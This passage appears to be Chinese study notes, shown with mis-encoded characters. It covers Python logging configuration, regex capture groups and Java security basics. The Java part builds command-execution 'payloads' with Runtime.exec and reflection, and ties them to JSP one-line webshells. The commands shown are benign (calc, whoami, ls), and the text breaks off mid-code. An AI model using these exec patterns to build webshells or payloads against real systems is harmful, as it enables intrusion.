å®é™…å¼€å‘一个application，首先å¯ä»¥é€šè¿‡loggingé…置文件编写好这个application所对应的é…置，å¯ä»¥ç”Ÿæˆä¸€ä¸ªæ ¹logger，如'PythonAPP'，然å在主函数中通过fileConfig加载loggingé…置，æ¥ç€åœ¨application的其他地方ã€ä¸åŒçš„模å—中，å¯ä»¥ä½¿ç”¨æ ¹loggerçš„å­logger，如'PythonAPP.Core'，'PythonAPP.Web'æ¥è¿›è¡Œlog，而ä¸éœ€è¦åå¤çš„定义和é…ç½®å„个模å—çš„logger。

### 通过JSON或者YAML文件é…ç½®logging模å—

尽管å¯ä»¥åœ¨Python代ç ä¸­é…ç½®logging，但是这样并ä¸å¤Ÿçµæ´»ï¼Œæœ€å¥½çš„方法是使用一个é…置文件æ¥é…置。在Python 2.7åŠä»¥å的版本中，å¯ä»¥ä»å­—典中加载loggingé…置，也就æ„味ç€å¯ä»¥é€šè¿‡JSON或者YAML文件加载日志的é…置。

#### 通过JSON文件é…ç½®

JSONé…置文件，

```json
{
    "version":1,
    "disable_existing_loggers":false,
    "formatters":{
        "simple":{
            "format":"%(asctime)s - %(name)s - %(levelname)s - %(message)s"
        }
    },
    "handlers":{
        "console":{
            "class":"logging.StreamHandler",
            "level":"DEBUG",
            "formatter":"simple",
            "stream":"ext://sys.stdout"
        },
        "info_file_handler":{
            "class":"logging.handlers.RotatingFileHandler",
            "level":"INFO",
            "formatter":"simple",
            "filename":"info.log",
            "maxBytes":"10485760",
            "backupCount":20,
            "encoding":"utf8"
        },
        "error_file_handler":{
            "class":"logging.handlers.RotatingFileHandler",
            "level":"ERROR",
            "formatter":"simple",
            "filename":"errors.log",
            "maxBytes":10485760,
            "backupCount":20,
            "encoding":"utf8"
        }
    },
    "loggers":{
        "my_module":{
            "level":"ERROR",
            "handlers":["info_file_handler"],
            "propagate":"no"
        }
    },
    "root":{
        "level":"INFO",
        "handlers":["console","info_file_handler","error_file_handler"]
    }
}
```

通过JSON加载é…置文件，然å通过logging.dictConfigé…ç½®logging，

```python
import json
import logging.config
import os
 
def setup_logging(default_path = "logging.json",default_level = logging.INFO,env_key = "LOG_CFG"):
    path = default_path
    value = os.getenv(env_key,None)
    if value:
        path = value
    if os.path.exists(path):
        with open(path,"r") as f:
            config = json.load(f)
            logging.config.dictConfig(config)
    else:
        logging.basicConfig(level = default_level)
 
def func():
    logging.info("start func")
 
    logging.info("exec func")
 
    logging.info("end func")
 
if __name__ == "__main__":
    setup_logging(default_path = "logging.json")
    func()
```

#### 通过YAML文件é…ç½®

通过YAML文件进行é…置，比JSON看起æ¥æ›´åŠ ç®€ä»‹æ˜äº†ï¼Œ

```yaml
version: 1
disable_existing_loggers: False
formatters:
        simple:
            format: "%(asctime)s - %(name)s - %(levelname)s - %(message)s"
handlers:
    console:
            class: logging.StreamHandler
            level: DEBUG
            formatter: simple
            stream: ext://sys.stdout
    info_file_handler:
            class: logging.handlers.RotatingFileHandler
            level: INFO
            formatter: simple
            filename: info.log
            maxBytes: 10485760
            backupCount: 20
            encoding: utf8
    error_file_handler:
            class: logging.handlers.RotatingFileHandler
            level: ERROR
            formatter: simple
            filename: errors.log
            maxBytes: 10485760
            backupCount: 20
            encoding: utf8
loggers:
    my_module:
            level: ERROR
            handlers: [info_file_handler]
            propagate: no
root:
    level: INFO
    handlers: [console,info_file_handler,error_file_handler]
```

通过YAML加载é…置文件，然å通过logging.dictConfigé…ç½®logging，

```python
import yaml
import logging.config
import os
 
def setup_logging(default_path = "logging.yaml",default_level = logging.INFO,env_key = "LOG_CFG"):
    path = default_path
    value = os.getenv(env_key,None)
    if value:
        path = value
    if os.path.exists(path):
        with open(path,"r") as f:
            config = yaml.load(f)
            logging.config.dictConfig(config)
    else:
        logging.basicConfig(level = default_level)
 
def func():
    logging.info("start func")
 
    logging.info("exec func")
 
    logging.info("end func")
 
if __name__ == "__main__":
    setup_logging(default_path = "logging.yaml")
    func()
```

## 正则表达å¼

#### æ•è·ç»„

使用å°æ‹¬å·æŒ‡å®šä¸€ä¸ªå­è¡¨è¾¾å¼å，匹é…这个å­è¡¨è¾¾å¼çš„文本(也就是此分组æ•è·çš„内容)å¯ä»¥åœ¨è¡¨è¾¾å¼æˆ–其它程åºä¸­ä½œè¿›ä¸€æ­¥çš„处ç†ã€‚默认情况下，æ¯ä¸ªæ•è·ç»„会自动拥有一个组å·ï¼Œè§„则是：ä»å·¦å‘å³ï¼Œä»¥åˆ†ç»„的左括å·ä¸ºæ ‡å¿—，第一个出ç°çš„分组的组å·ä¸º1，第二个为2，以此类æ¨ã€‚  也å¯ä»¥è‡ªå·±æŒ‡å®šå­è¡¨è¾¾å¼çš„组å。这样在表达å¼æˆ–程åºä¸­å¯ä»¥ç›´æ¥å¼•ç”¨ç»„å，当然也å¯ä»¥ç»§ç»­ä½¿ç”¨ç»„å·ã€‚但如æœæ­£åˆ™è¡¨è¾¾å¼ä¸­åŒæ—¶å­˜åœ¨æ™®é€šæ•è·ç»„和命åæ•è·ç»„，那么æ•è·ç»„çš„ç¼–å·å°±è¦ç‰¹åˆ«æ³¨æ„，编å·çš„规则是先对普通æ•è·ç»„进行编å·ï¼Œå†å¯¹å‘½åæ•è·ç»„进行编å·ã€‚详细语法如下：

`(pattern)`：匹é…pattern并æ•è·ç»“æœï¼Œè‡ªåŠ¨è®¾ç½®ç»„å·ã€‚

```undefined
(abc)+d :  匹é…到abcd或者abcabcd
```

`(?<name>pattern)`或`(?'name'pattern)`：匹é…pattern并æ•è·ç»“æœï¼Œè®¾ç½®name为组å。

 `\num`：对æ•è·ç»„çš„åå‘引用。其中 num 是一个正整数。

```undefined
(\w)(\w)\2\1: 匹é…到abba
```

`\k<name>`或`\k'name'`：对命åæ•è·ç»„çš„åå‘引用。其中 name 是æ•è·ç»„å。

```csharp
(?<group>\w)abc\k<group>  : 匹é…到xabcx
```

1. `(?:pattern)` éæ•è·ç»„（Non-capturing Group）
   `?:` 是用äºåˆ›å»ºéæ•è·ç»„的语法，用äºæŒ‡å®šä¸€ä¸ªå­è¡¨è¾¾å¼ï¼Œä½†ä¸å°†å…¶æ•è·ä¸ºåŒ¹é…结æœä¸­çš„一个分组。它的语法是 `(?:...)`，其中 `...` 是一个å­è¡¨è¾¾å¼ã€‚

   示例：`(?:foo)+` 匹é…一个或多个è¿ç»­å‡ºç°çš„ `foo`，但ä¸ä¼šæ•è·æ¯ä¸ª `foo` 作为匹é…结æœä¸­çš„一个分组。

2. `(?=pattern)` ：零宽度正å‘预查（正å‘零宽断言）
   `?=` 是一个正å‘预查，用äºæŒ‡å®šä¸€ä¸ªå¿…须满足的æ¡ä»¶ï¼Œä½†ä¸æ•è·å®é™…匹é…的内容。它的语法是 `(?=...)`，其中 `...` 是一个正则表达å¼ï¼Œè¡¨ç¤ºéœ€è¦æ»¡è¶³çš„æ¡ä»¶ã€‚当 `?=` åé¢çš„内容满足 `...` çš„æ¡ä»¶æ—¶ï¼Œæ•´ä¸ªè¡¨è¾¾å¼æ‰ç®—匹é…，但最终匹é…结æœå¹¶ä¸åŒ…å« `?=` åé¢çš„内容，也并ä¸ä¼šâ€œæ¶ˆè€—â€æˆ–匹é…该模å¼ï¼Œåªæ˜¯ç¡®è®¤å®ƒå­˜åœ¨ã€‚

   示例：`foo(?=bar)` åŒ¹é… `foo`，但åªæœ‰å½“å…¶åç´§è·Ÿç€ `bar` æ—¶æ‰æ˜¯æœ‰æ•ˆçš„匹é…。

3. `(?!pattern)`：零宽度负å‘预查（负å‘零宽断言）

   `?!` 是一个负å‘预查，用äºæŒ‡å®šä¸€ä¸ªæ¡ä»¶ï¼Œè¡¨ç¤ºè¯¥æ¡ä»¶åœ¨å½“å‰ä½ç½®ä¸åº”该出ç°ã€‚它的语法是 `(?!...)`，其中 `...` 是一个正则表达å¼ï¼Œè¡¨ç¤ºéœ€è¦æ»¡è¶³çš„æ¡ä»¶ã€‚当 `?!` åé¢çš„内容ä¸æ»¡è¶³ `...` çš„æ¡ä»¶æ—¶ï¼Œæ•´ä¸ªè¡¨è¾¾å¼æ‰ç®—匹é…。

   示例：`foo(?!bar)` åŒ¹é… `foo`，但åªæœ‰å½“å…¶åä¸ç´§è·Ÿç€ `bar` æ—¶æ‰æ˜¯æœ‰æ•ˆçš„匹é…。

4. `(?<=pattern)`: 零宽度正å‘å›æŸ¥ï¼ˆä¹Ÿç§°ä¸ºæ­£å‘零宽断言）。

   这个断言会查找å‰é¢æ˜¯`pattern`的地方。例如，`(?<=a)b`会匹é…所有å‰é¢æ˜¯`a`çš„`b`。在字符串`abc`中，`b`会被匹é…，因为它å‰é¢æ˜¯`a`。但是，这个断言并ä¸ä¼šâ€œæ¶ˆè€—â€æˆ–匹é…`a`，所以如æœä½ å¯¹æ•´ä¸ªå­—符串进行匹é…，åªæœ‰`b`会被返å›ï¼Œè€Œä¸æ˜¯`ab`。

   注æ„，正å‘å›æŸ¥ä¸­çš„`pattern`必须是固定长度的。也就是说，你ä¸èƒ½åœ¨`pattern`中使用`*`或`+`这样的é‡è¯ã€‚

5. `(?<!pattern)`: 零宽度负å‘å›æŸ¥ï¼ˆä¹Ÿç§°ä¸ºè´Ÿå‘零宽断言）。

   这个断言会查找å‰é¢ä¸æ˜¯`pattern`的地方。例如，`(?<!a)b`会匹é…所有å‰é¢ä¸æ˜¯`a`çš„`b`。在字符串`abc`中，`b`ä¸ä¼šè¢«åŒ¹é…，因为它å‰é¢æ˜¯`a`。但是，在字符串`dbc`中，`b`会被匹é…，因为它å‰é¢æ˜¯`d`，ä¸æ˜¯`a`。

   åŒæ ·ï¼Œè´Ÿå‘å›æŸ¥ä¸­çš„`pattern`必须是固定长度的。

#### 分组引用

上é¢è®²å®Œäº†åˆ†ç»„，我们æ¥çœ‹ä¸‹å¦‚何æ¥å¼•ç”¨åˆ†ç»„，大部分语言都是用 **åæ–œæ  + ç¼–å·** çš„æ–¹å¼ï¼Œä¸ªåˆ«çš„比如 JavaScript语言，使用的是 **ç¾å…ƒç¬¦å· + ç¼–å·** çš„æ–¹å¼ï¼š

|  编程语言  | æŸ¥æ‰¾æ—¶å¼•ç”¨æ–¹å¼ | 替æ¢æ—¶å¼•ç”¨æ–¹å¼ |
| :--------: | :------------: | :------------: |
|   Python   | \number 如 \1  | \number 如 \1  |
|     Go     |  官方包ä¸æ”¯æŒ  |  官方包ä¸æ”¯æŒ  |
|    Java    | \number 如 \1  | $number 如 $1  |
| JavaScript | $number 如 $1  | $number 如 $1  |
|    PHP     | \number 如 \1  | \number 如 \1  |
|    Ruby    | \number 如 \1  | \number 如 \1  |

在一个目标字符串中，查找两个é‡å¤å‡ºç°çš„å•è¯ï¼š




利用分组引用替æ¢æ—¶é—´demo:

```python
print("result8".center(50, '-'))
test_str = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
print(test_str)
regex = r"(\d{4})-(\d{2})-(\d{2}) (\d{2}):(\d{2}):(\d{2})"
subst = r"\1年\2月\3日 \4时\5分\6秒"
result8 = re.sub(regex, subst, test_str)
print(result8)
# 2023-07-31 14:39:59
# 2023年07月31日 14时39分59秒
```

## JWTæ¼æ´


## Java安全

### 命令执行

最基本的 java中的命令执行

```Java
import java.io.IOException;

public class Calc {
    //当å‰æ‰§è¡Œå‘½ä»¤æ— å›æ˜¾
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

>`Runtime`类表示è¿è¡Œæ—¶ç¯å¢ƒï¼Œå¹¶æä¾›ä¸è¿è¡Œæ—¶ç¯å¢ƒäº¤äº’的方法：
>
>1. `exec(String command)`: 用äºåœ¨ç³»ç»Ÿçš„命令行执行指定的命令。
>2. `exec(String[] cmdarray)`: 用äºåœ¨ç³»ç»Ÿçš„命令行执行指定的命令，å‚数作为字符串数组传递。
>3. `exec(String command, String[] envp)`: 用äºåœ¨ç³»ç»Ÿçš„命令行执行指定的命令，并指定ç¯å¢ƒå˜é‡ã€‚
>4. `exec(String[] cmdarray, String[] envp)`: 用äºåœ¨ç³»ç»Ÿçš„命令行执行指定的命令，å‚数作为字符串数组传递，并指定ç¯å¢ƒå˜é‡ã€‚
>5. `exit(int status)`: 用äºç»ˆæ­¢å½“å‰ Java 虚拟机。
>6. `freeMemory()`: 该方法用äºè¿”å›Java虚拟机中的空闲内存é‡ï¼Œä»¥å­—节为å•ä½ã€‚
>7. `maxMemory()`: 该方法用äºè¿”å›Java虚拟机试图使用的最大内存é‡ã€‚
>8. `totalMemory()`: 该方法用äºè¿”å›Java虚拟机中的内存总é‡ã€‚
>9. `availableProcessors()` : è¿”å›è™šæ‹Ÿæœºçš„处ç†å™¨æ•°é‡
>
>`Runtime`无法直æ¥new 所以使用这个创建对象：`Runtime runtime = Runtime.getRuntime();`
>
>其中，最常用的方法是 `exec()` 方法，它å…许你在 Java 程åºä¸­æ‰§è¡Œå¤–部命令，`exec()`方法返å›ä¸€ä¸ª `Process` 对象
>
>`Process` ç±»æ供了以下方法æ¥ä¸å­è¿›ç¨‹äº¤äº’：
>
>1. `InputStream getInputStream()`: è·å–å­è¿›ç¨‹çš„标准输出æµã€‚
>2. `InputStream getErrorStream()`: è·å–å­è¿›ç¨‹çš„错误输出æµã€‚
>3. `OutputStream getOutputStream()`: è·å–å­è¿›ç¨‹çš„标准输入æµã€‚
>4. `int waitFor()`: 等待å­è¿›ç¨‹æ‰§è¡Œå®Œæˆå¹¶è¿”å›å­è¿›ç¨‹çš„退出值。
>5. `int exitValue()`: è·å–å­è¿›ç¨‹çš„退出值（仅在å­è¿›ç¨‹æ‰§è¡Œå®Œæˆåæ‰å¯è°ƒç”¨ï¼‰ã€‚

如æœéœ€è¦å›æ˜¾è¦ç”¨IOæµå°†å‘½ä»¤æ‰§è¡Œå的字节加载出æ¥ï¼Œç„¶å最基本的按行读å–，就å¯ä»¥äº†ã€‚

在进行网站开å‘å…¥JSP的时候，我们使用的JSP一å¥è¯æœ¨é©¬ä¹Ÿæ˜¯æ ¹æ®è¿™ä¸ªåŸç†è¿›è¡Œç¼–写的。

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Main {
    public static void main(String[] args) throws IOException {
        Process p = Runtime.getRuntime().exec("whoami");
        InputStream is = p.getInputStream();
        InputStreamReader isr = new InputStreamReader(is, "GBK");
        BufferedReader ibr = new BufferedReader(isr);
        StringBuilder sb = new StringBuilder();
        String line = null;
        while((line = ibr.readLine()) != null){
            sb.append(line);
            System.out.println(line);
        }
        is.close();
        isr.close();
        ibr.close();
        is = null;
        isr = null;
        ibr = null;
    }
}
```

>四个模å—：
>
>1. `java.io.IOException`: 这是 Java 的输入输出æ“作中最常è§çš„异常类。它表示在进行输入和输出æ“作时å¯èƒ½å‡ºç°çš„错误情况，例如文件ä¸å­˜åœ¨ã€æƒé™é—®é¢˜ã€è®¾å¤‡é”™è¯¯ç­‰ã€‚当执行输入输出æ“作时，如æœå‘生异常，就å¯ä»¥é€šè¿‡æ•è· `IOException` 异常æ¥å¤„ç†è¿™äº›é”™è¯¯æƒ…况。
>2. `java.io.InputStream`: 这是一个字节输入æµç±»ï¼Œå®ƒæ˜¯æ‰€æœ‰è¾“å…¥æµçš„抽象基类。`InputStream` 用äºä»è¾“å…¥æºï¼ˆä¾‹å¦‚文件ã€ç½‘络è¿æ¥ã€å­—节数组等）读å–字节数æ®ã€‚它æ供了 `read()` 方法用äºè¯»å–å•ä¸ªå­—节，以åŠå…¶ä»–相关的方法用äºè¯»å–多个字节数æ®ã€‚
>3. `java.io.InputStreamReader`: 这是一个字符输入æµç±»ï¼Œå®ƒæ˜¯ `Reader` 类的å­ç±»ã€‚`InputStreamReader` å¯ä»¥å°†å­—节输入æµï¼ˆ`InputStream`）转æ¢ä¸ºå­—符输入æµï¼Œä»è€Œå¯ä»¥æ–¹ä¾¿åœ°è¯»å–文本数æ®ã€‚它æ供了和 `Reader` 类相似的方法，例如 `read()` 方法用äºè¯»å–å•ä¸ªå­—符。
>4. `java.io.BufferedReader`: 这是一个字符缓冲输入æµç±»ï¼Œå®ƒç»§æ‰¿è‡ª `Reader` 类。`BufferedReader` å¯ä»¥ä»å­—符输入æµä¸­è¯»å–文本数æ®ï¼Œå¹¶ä»¥ç¼“冲方å¼æ高读å–效ç‡ã€‚它æ供了 `readLine()` 方法用äºé€è¡Œè¯»å–文本数æ®ï¼Œå¸¸ç”¨äºè¯»å–文本文件内容等场景。
>5. `StringBuilder` 是一个å¯å˜çš„字符串类，用äºæ„建和修改字符串。用äºå¤„ç†å¤§é‡å­—符串拼æ¥å’Œä¿®æ”¹æ“作，é¿å…频ç¹åˆ›å»ºæ–°çš„字符串对象，æ高字符串处ç†æ€§èƒ½ã€‚
>
>这些模å—常常一起使用，例如在读å–文本文件的场景中，å¯ä»¥ä½¿ç”¨ `FileInputStream`（字节输入æµï¼‰è¯»å–文件的字节数æ®ï¼Œç„¶å通过 `InputStreamReader` 将字节数æ®è½¬æ¢ä¸ºå­—符数æ®ï¼Œæœ€åå†ä½¿ç”¨ `BufferedReader` é€è¡Œè¯»å–字符数æ®ã€‚通过这ç§æ–¹å¼ï¼Œå¯ä»¥é«˜æ•ˆåœ°è¯»å–文本文件的内容，并处ç†å¯èƒ½å‡ºç°çš„异常情况。

在ä¸åŒçš„æ“作系统下，执行的命令的方å¼ä¹Ÿæ˜¯ä¸ä¸€æ ·çš„

#### Windows下

Windows下一ç­éƒ½ä¼šç”¨`cmd`或者`powershell`å»æ‰§è¡Œå‘½ä»¤ï¼Œä½†æ˜¯powershell一般默认会é™åˆ¶æ‰§è¡Œç­–略，所以一般用`cmd`

```Java
String[] payload = {"cmd", "/c", "dir"};
Process p = Runtime.getRuntime().exec(payload);
```

#### Linux下

Linux一般使用`bash`执行命令，通常情况下是会有的，但是有的情况，å¯èƒ½æ²¡æœ‰bash，我们就å¯ä»¥ä½¿ç”¨`sh`æ¥è¿›è¡Œæ›¿ä»£

```
String [] payload={"/bin/sh","-c","ls"}; 
Process p = Runtime.getRuntime().exec(payload);
```

>ä»¥ä¸‹æ˜¯ä¸€äº›å¸¸è§ Shell 的二进制文件和对应的命令执行方å¼ï¼š
>
>1. Bash：
>   - 二进制文件路径：/bin/bash
>   - 命令执行方å¼ï¼šç›´æ¥åœ¨ç»ˆç«¯ä¸­è¾“入命令。
>2. Zsh：
>   - 二进制文件路径：/bin/zsh
>   - 命令执行方å¼ï¼šç›´æ¥åœ¨ç»ˆç«¯ä¸­è¾“入命令。
>3. Fish：
>   - 二进制文件路径：/usr/bin/fish
>   - 命令执行方å¼ï¼šåœ¨ç»ˆç«¯ä¸­ä½¿ç”¨ `fish -c 'command'` çš„æ–¹å¼æ‰§è¡Œå‘½ä»¤ã€‚
>4. Sh 或 Dash：
>   - 二进制文件路径：/bin/sh 或 /bin/dash（å–决äºç³»ç»Ÿé…置）
>   - 命令执行方å¼ï¼šåœ¨ç»ˆç«¯ä¸­ä½¿ç”¨ `sh -c 'command'` 或 `dash -c 'command'` çš„æ–¹å¼æ‰§è¡Œå‘½ä»¤ã€‚

æ ¹æ®ä¸åŒä¸»æœºè¿›è¡Œç”„别：使用`getProperty`函数è·å–æ“作系统的å称

```Java
// System.getProperty("os.name");
System.out.println("æ“作系统：" + System.getProperty("os.name"));
// æ“作系统：Windows 10
```

完整payload：

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Main {
    public static void main(String[] args) throws IOException {
        String sys = System.getProperty("os.name");
        String[] payload = null;
        System.out.println("æ“作系统：" + sys);
        if (sys.contains("Window")){
            String[] payloadCmd = {"cmd", "/c", "dir"};
            payload = payloadCmd.clone();
        }else{
            String[] payloadSh = {"/bin/sh", "-c", "ls"};
            payload = payloadSh.clone();
        }

        Process p = Runtime.getRuntime().exec(payload);
        InputStream is = p.getInputStream();
        InputStreamReader isr = new InputStreamReader(is, "GBK");
        BufferedReader ibr = new BufferedReader(isr);
        StringBuilder sb = new StringBuilder();
        String line = null;
        while((line = ibr.readLine()) != null){
            sb.append(line);
            System.out.println(line);
        }
        is.close();
        isr.close();
        ibr.close();
        is = null;
        isr = null;
        ibr = null;
    }
}
```

### åå°„

[Java 类的åˆå§‹åŒ–é¡ºåº - çŸ¥ä¹ (zhihu.com)](https://zhuanlan.zhihu.com/p/122554857)

Java有四个基本特å¾ï¼šå°è£…，继承，多æ€ï¼ŒæŠ½è±¡

Javaçš„å射（reflection）机制是指在程åºçš„è¿è¡ŒçŠ¶æ€ä¸­ï¼Œå¯ä»¥æ„造任æ„一个类的对象，å¯ä»¥äº†è§£ä»»æ„一个对象所å±çš„类，å¯ä»¥äº†è§£ä»»æ„一个类的æˆå‘˜å˜é‡å’Œæ–¹æ³•ï¼Œå¯ä»¥è°ƒç”¨ä»»æ„一个对象的å±æ€§å’Œæ–¹æ³•ã€‚本质上其å®å°±æ˜¯åŠ¨æ€çš„生æˆç±»ä¼¼äºä¸Šè¿°çš„字节ç ï¼ŒåŠ è½½åˆ°jvm中è¿è¡Œ

1. Javaå射机制的核心是在程åºè¿è¡Œæ—¶åŠ¨æ€åŠ è½½ç±»å¹¶è·å–类的详细信æ¯ï¼Œä»è€Œæ“作类或对象的å±æ€§å’Œæ–¹æ³•ã€‚
2. Javaå±äºå…ˆç¼–译å†è¿è¡Œçš„语言，程åºä¸­å¯¹è±¡çš„ç±»å‹åœ¨ç¼–译期就确定下æ¥äº†ï¼Œè€Œå½“程åºåœ¨è¿è¡Œæ—¶å¯èƒ½éœ€è¦åŠ¨æ€åŠ è½½æŸäº›ç±»ï¼Œè¿™äº›ç±»å› ä¸ºä¹‹å‰ç”¨ä¸åˆ°ï¼Œæ‰€ä»¥æ²¡æœ‰è¢«åŠ è½½åˆ°JVM。通过å射，å¯ä»¥åœ¨è¿è¡Œæ—¶åŠ¨æ€åœ°åˆ›å»ºå¯¹è±¡å¹¶è°ƒç”¨å…¶å±æ€§ï¼Œä¸éœ€è¦æå‰åœ¨ç¼–译期知é“è¿è¡Œçš„对象是è°ã€‚
3. å射调用方法时，会忽略æƒé™æ£€æŸ¥ï¼Œå¯ä»¥æ— è§†æƒé™ä¿®æ”¹å¯¹åº”的值，因此容易导致安全性问题，（对安全研究人员æ¥è¯´æ供了ä¸å°çš„帮助，hhhh）

这样⼀段代ç ï¼Œåœ¨ä½ ä¸çŸ¥é“传⼊的å‚数值 的时候，你是ä¸çŸ¥é“他的作⽤是什么的：

```Java
public void execute(String className, String methodName) throws Exception {
    Class clazz = Class.forName(className);
 	clazz.getMethod(methodName).invoke(clazz.newInstance());
}
```

- è·å–类的⽅法： `forName` 
- å®ä¾‹åŒ–类对象的⽅法： `newInstance` 
- è·å–函数的⽅法： `getMethod` 
- 执â¾å‡½æ•°çš„⽅法： `invoke`

#### å射机制åŸç†

å射机制的åŸç†åŸºç¡€æ˜¯ç†è§£Class类，类是java.lang.Class类的å®ä¾‹å¯¹è±¡ï¼Œè€ŒClass是所有的类的类。对äºæ™®é€šçš„对象，我们在创建å®ä¾‹çš„时候通常采用如下方法：

```java
Demo test = new Demo();
```

那么我们在创建class类的å®ä¾‹å¯¹è±¡æ—¶æ˜¯å¦å¯ä»¥åŒæ ·ç”¨ä¸Šé¢çš„方法创建呢

```java
Class c = new Class()ï¼›
```

答案是ä¸è¡Œçš„，所以我们查看一下Classçš„æºç ï¼Œå‘ç°ä»–çš„æ„造器是ç§æœ‰çš„，这æ„味ç€åªæœ‰JVMå¯ä»¥åˆ›å»ºClass的对象。


å射机制åŸç†å°±æ˜¯æŠŠJava类中的å„ç§æˆåˆ†æ˜ å°„æˆä¸€ä¸ªä¸ªçš„Java对象，所以我们å¯ä»¥åœ¨è¿è¡Œæ—¶è°ƒç”¨ç±»ä¸­çš„所有æˆå‘˜ï¼ˆå˜é‡ã€æ–¹æ³•ï¼‰ã€‚下图是å射机制中类的加载过程：


#### å射机制æ“作


> [通俗易懂的åŒäº²å§”派机制_IT烂笔头的åšå®¢-CSDNåšå®¢](https://blog.csdn.net/codeyanbao/article/details/82875064)
>
> 1. 如æœä¸€ä¸ªç±»åŠ è½½å™¨æ”¶åˆ°äº†ç±»åŠ è½½è¯·æ±‚，它并ä¸ä¼šè‡ªå·±å…ˆåŠ è½½ï¼Œè€Œæ˜¯æŠŠè¿™ä¸ªè¯·æ±‚委托给父类的加载器å»æ‰§è¡Œ
> 2. 如æœçˆ¶ç±»åŠ è½½å™¨è¿˜å­˜åœ¨å…¶çˆ¶ç±»åŠ è½½å™¨ï¼Œåˆ™è¿›ä¸€æ­¥å‘上委托，ä¾æ¬¡é€’归，请求最终将到达顶层的引导类加载器；
>
> 3. 如æœçˆ¶ç±»åŠ è½½å™¨å¯ä»¥å®Œæˆç±»åŠ è½½ä»»åŠ¡ï¼Œå°±æˆåŠŸè¿”å›ï¼Œå€˜è‹¥çˆ¶ç±»åŠ è½½å™¨æ— æ³•å®ŒæˆåŠ è½½ä»»åŠ¡ï¼Œå­åŠ è½½å™¨æ‰ä¼šå°è¯•è‡ªå·±å»åŠ è½½ï¼Œè¿™å°±æ˜¯åŒäº²å§”派机制
>
> 4. 父类加载器一层一层往下分é…任务，如æœå­ç±»åŠ è½½å™¨èƒ½åŠ è½½ï¼Œåˆ™åŠ è½½æ­¤ç±»ï¼Œå¦‚æœå°†åŠ è½½ä»»åŠ¡åˆ†é…至系统类加载器也无法加载此类，则抛出异常
>    

##### è·å–Class对象

有三ç§æ–¹å¼è·å¾—一个Class对象

1. 通过调用一个普通的其他类的`getClass()`方法è·å¾—Class对象
2. 任何数æ®ç±»å‹ï¼ˆåŒ…括基本数æ®ç±»å‹ï¼‰éƒ½æœ‰ä¸€ä¸ªâ€œé™æ€â€çš„Classå±æ€§ï¼Œæ‰€ä»¥ç›´æ¥è°ƒç”¨.classå±æ€§è·å¾—Class对象
3. 调用Class类的forName方法，è·å¾—Class的对象


##### è·å–æˆå‘˜æ–¹æ³•Method

得到该类所有的方法，ä¸åŒ…括父类的：
`public Method getDeclaredMethods() `

得到该类所有的public方法，包括父类的：
`public Method getMethods()`

>è·å–当å‰ç±»æŒ‡å®šçš„æˆå‘˜æ–¹æ³•æ—¶ï¼Œ
>
>`Method method = class.getDeclaredMethod("方法å");`
>`Method[] method = class.getDeclaredMethod("方法å", å‚æ•°ç±»å‹å¦‚String.class，多个å‚数用,å·éš”å¼€);`


执行方法：`Process process = (Process) runtimeMethod.invoke(runtimeInstance, "calc");`

>###### `invoke()`方法
>
>`method.invoke(方法å®ä¾‹å¯¹è±¡, 方法å‚数值，多个å‚数值用","隔开);`
>
>如æœè¿™ä¸ªæ–¹æ³•æ˜¯ä¸€ä¸ªæ™®é€šæ–¹æ³•ï¼Œé‚£ä¹ˆç¬¬ä¸€ä¸ªå‚数是类对象，如æœè¿™ä¸ªæ–¹æ³•æ˜¯ä¸€ä¸ªé™æ€æ–¹æ³•ï¼Œé‚£ä¹ˆç¬¬ä¸€ä¸ªå‚数是类。
>
>1. `invoke()`就是调用类中的方法，最简å•çš„用法是å¯ä»¥æŠŠæ–¹æ³•å‚数化`invoke(class, args)`
>    这里则是使用了` class.invoke(method,“å‚æ•°â€)`的一个方å¼
>2. 还å¯ä»¥æŠŠæ–¹æ³•å存进数组`v[]`,然å循ç¯é‡Œ`invoke(test,v[i])`,就顺åºè°ƒç”¨äº†å…¨éƒ¨æ–¹æ³•

##### è·å–æ„造函数Constructor

è·å¾—该类所有的æ„造器，ä¸åŒ…括其父类的æ„造器
`public Constructor<T> getDeclaredConstructors() `

è·å¾—该类所有publicæ„造器，包括父类
`public Constructor<T> getConstructors() `

>###### `newInstance()`方法
>
>`class.newInstance()`的作用就是调用这个类的无å‚æ„造函数，这个比较好ç†è§£ã€‚ä¸è¿‡ï¼Œæˆ‘们有时候 在写æ¼æ´åˆ©ç”¨æ–¹æ³•çš„时候，会å‘ç°ä½¿ç”¨`newInstance`总是ä¸æˆåŠŸï¼Œè¿™æ—¶å€™åŸå› å¯èƒ½æ˜¯ï¼š
>
>1.  你使用的类没有无å‚æ„造函数 
>2.  你使用的类æ„造函数是ç§æœ‰çš„
>
>最最最常è§çš„情况就是`java.lang.Runtime`，这个类在我们æ„造命令执行Payload的时候很常è§ï¼Œä½† 我们ä¸èƒ½ç›´æ¥è¿™æ ·æ¥æ‰§è¡Œå‘½ä»¤ï¼š
>
>```
>Class clazz = Class.forName("java.lang.Runtime");
>clazz.getMethod("exec", String.class).invoke(clazz.newInstance(), "id");
>```
>
>你会得到这样一个错误：
>
>
>
> åŸå› æ˜¯ Runtime 类的æ„造方法是ç§æœ‰çš„。
>
>åŸå› æ˜¯`Runtime`类的æ„造方法是ç§æœ‰çš„。 有åŒå­¦å°±æ¯”较好奇，为什么会有类的æ„造方法是ç§æœ‰çš„，难é“ä»–ä¸æƒ³è®©ç”¨æˆ·ä½¿ç”¨è¿™ä¸ªç±»å—？这其å®æ¶‰åŠ 到很常è§çš„设计模å¼ï¼šâ€œå•ä¾‹æ¨¡å¼â€ã€‚（有时候工å‚模å¼ä¹Ÿä¼šå†™æˆç±»ä¼¼ï¼‰ 比如，对äºWeb应用æ¥è¯´ï¼Œæ•°æ®åº“è¿æ¥åªéœ€è¦å»ºç«‹ä¸€æ¬¡ï¼Œè€Œä¸æ˜¯æ¯æ¬¡ç”¨åˆ°æ•°æ®åº“的时候å†æ–°å»ºç«‹ä¸€ä¸ªè¿ æ¥ï¼Œæ­¤æ—¶ä½œä¸ºå¼€å‘者你就å¯ä»¥å°†æ•°æ®åº“è¿æ¥ä½¿ç”¨çš„类的æ„造函数设置为ç§æœ‰ï¼Œç„¶å编写一个é™æ€æ–¹æ³•æ¥ è·å–：
>
>```
>public class TrainDB {
